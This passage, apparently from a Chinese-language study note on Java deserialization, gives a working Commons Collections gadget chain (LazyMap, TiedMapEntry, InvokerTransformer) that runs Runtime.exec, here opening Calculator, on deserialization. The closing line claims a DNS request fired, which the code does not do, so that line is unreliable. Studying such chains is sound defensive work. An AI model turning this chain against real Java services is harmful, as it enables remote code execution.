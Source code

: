 ```java
        Class<?> clazz = Class.forName("java.lang.Runtime");
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(clazz),
                new InvokerTransformer(
                        "getMethod",
                        new Class[]{String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),
                new InvokerTransformer(
                        "invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),
                new InvokerTransformer(
                        "exec",
                        new Class[]{String.class},
                        new Object[]{"open /System/Applications/Calculator.app"}
                )
        };
        Transformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","xxx");
        Map<Object,Object> lazyMap = LazyMap.decorate(map, chainedTransformer);
        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "abc");
        HashMap<TiedMapEntry,Integer> entryMap = new HashMap<TiedMapEntry,Integer>();
        Class<?> clazzTiedMapEntry = tiedMapEntry.getClass();
        Field field = clazzTiedMapEntry.getDeclaredField("map");
        field.setAccessible(true);
        field.set(tiedMapEntry,new HashMap());
        entryMap.put(tiedMapEntry, 1);
        field.set(tiedMapEntry,lazyMap);
        serializeObject(entryMap);
        unSerializeObject("ser.bin");
    }

    public static void serializeObject(Object obj) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        outputStream.writeObject(obj);
        outputStream.close();
    }

    public static Object unSerializeObject(String Filename) throws Exception {
        ObjectInputStream inputStream = new ObjectInputStream(new FileInputStream(Filename));
        return inputStream.readObject();
    }
}
```

运行后成功触发 DNS 请求，如下-->

![alt text](image-48.png)
